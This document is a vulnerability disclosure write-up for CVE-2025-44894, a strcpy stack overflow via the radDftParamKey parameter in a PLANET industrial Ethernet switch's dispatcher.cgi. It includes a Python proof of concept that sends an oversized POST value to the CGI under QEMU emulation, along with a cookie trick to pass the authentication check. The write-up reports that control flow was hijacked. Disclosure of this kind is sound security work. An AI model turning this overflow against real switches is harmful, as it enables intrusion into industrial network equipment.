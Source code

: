 ```yaml
---
title: web_radiusSrv_dftParam_post-radDftParamKey
date: 2025-04-20 17:08:47
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44894



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2







# web_radiusSrv_dftParam_post-radDftParamKey

 I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_radiusSrv_dftParam_post contains a stack overflow vulnerability.

The stack overflow can be triggered by radDftParamKey key value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-174514054570712.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250416171210335](../res/image-20250416171210335-174479473186924.png)





﻿The content of the **poc**.py. file is as follows:

```json
import os


a = 0x1F00
var_name = "radDftParamKey"
b = 'a' * 0x500


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)

```



![image-20250416171253023](../res/image-20250416171253023-174479477449025.png)

![image-20250416171328965](../res/image-20250416171328965-174479481117326.png)



Through the above image, we can see that we have overflowed to 0x49c and successfully hijacked the control flow. If necessary, more can be overflowed.

